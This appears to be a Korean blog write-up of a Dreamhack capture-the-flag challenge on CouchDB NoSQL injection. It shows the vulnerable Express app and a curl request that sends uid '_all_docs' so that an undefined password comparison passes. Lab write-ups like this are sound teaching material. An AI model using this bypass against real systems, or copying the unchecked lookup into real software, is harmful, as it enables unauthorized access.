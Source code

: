 ```yaml
---
title: "[2025-07-24] NoSQL-CouchDB"
excerpt: "CouchDB injection"

categories:
  - Problem
tags:
  - [NoSQL injection, CouchDB]

permalink: /Problem/[2025-07-24] NoSQL-CouchDB/

toc: true
toc_sticky: true

date: 2025-07-24
last_modified_at: 2025-07-24
---
```


## 🦥 본문

- app.js

```jsx
var createError = require('http-errors');
var express = require('express');
var path = require('path');
var cookieParser = require('cookie-parser');

const nano = require('nano')(`http://${process.env.COUCHDB_USER}:${process.env.COUCHDB_PASSWORD}@couchdb:5984`);
const users = nano.db.use('users');
var app = express();

// view engine setup
app.set('views', path.join(__dirname, 'views'));
app.set('view engine', 'ejs');

app.use(express.json());
app.use(express.urlencoded({ extended: false }));
app.use(cookieParser());
app.use(express.static(path.join(__dirname, 'public')));

/* GET home page. */
app.get('/', function(req, res, next) {
  res.render('index');
});

/* POST auth */
app.post('/auth', function(req, res) {
    users.get(req.body.uid, function(err, result) {
        if (err) {
            console.log(err);
            res.send('error');
            return;
        }
        if (result.upw === req.body.upw) {
            res.send(`FLAG: ${process.env.FLAG}`);
        } else {
            res.send('fail');
        }
    });
});

// catch 404 and forward to error handler
app.use(function(req, res, next) {
  next(createError(404));
});

// error handler
app.use(function(err, req, res, next) {
  // set locals, only providing error in development
  res.locals.message = err.message;
  res.locals.error = req.app.get('env') === 'development' ? err : {};

  // render the error page
  res.status(err.status || 500);
  res.render('error');
});

module.exports = app;
```

사용자로부터 uid와 upw를 받는다. uid를 통해 CouchDB에서 계정을 찾고 해당 결과에서 upw와 사용자가 보낸 upw가 같으면 FLAG가 나온다.

### 풀이과정

1. uid 값에 `_all_docs` 를 입력한다.
2. 아래와 같이 요청을 보낸다.
    
    ```jsx
    curl -X POST http://host1.dreamhack.games:17032/auth -H "Content-Type: application/json" -d '{"uid": "_all_docs"}'
    ```
    
    - uid를 `_all_docs` 를 보내면 에러 없이 get 함수가 실행된다
    - 해당 페이지에서는 upw인 키 값이 없기 때문에 result.upw는 undefined가 된다.
    - upw를 보내지 않으면 undefined가 되기 때문에 조건문을 만족하여 FLAG 값이 나온다.